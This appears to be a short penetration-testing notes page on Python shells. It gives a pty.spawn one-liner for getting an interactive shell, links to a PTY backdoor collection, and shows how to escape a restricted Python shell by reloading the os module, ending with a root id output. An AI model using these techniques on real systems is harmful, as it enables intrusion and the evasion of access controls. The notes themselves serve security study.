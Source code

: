```yaml
---
layout: default
title: Python 
parent: Shells / Reverse Shells
grand_parent: security stuff
nav_order: 2
---
```


1. TOC
{:toc}

## Shells

### one-liner 
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

### PTY Backdoors
- <https://github.com/infodox/python-pty-shells>

### Escaping Restricted Shells
#### Example One
- below is an example of a sys admin overwriting the builtin 'os' module in memory to establish a 'restricted' shell   
```python
>>> import sys
>>> sys.modules['os'].system = lambda *x,**y:"STOP HACKING!!!"
>>> sys.modules['os'].popup = lambda *x,**y:"STOP HACKING!!!"
>>> del sys
>>> import os
>>> os.system("ls")
'STOP HACKING!!!'
```
- demonstrated below is how to escape the above scenario (reload the os module)  
```python
>>> import importlib
>>> importlib.reload(os)
module 'os' from '/usr/lib/python3.7/os.py'
>>> os.system("id")
uid=0(root) gid=0(root) groups=0(root) 
0
```

---



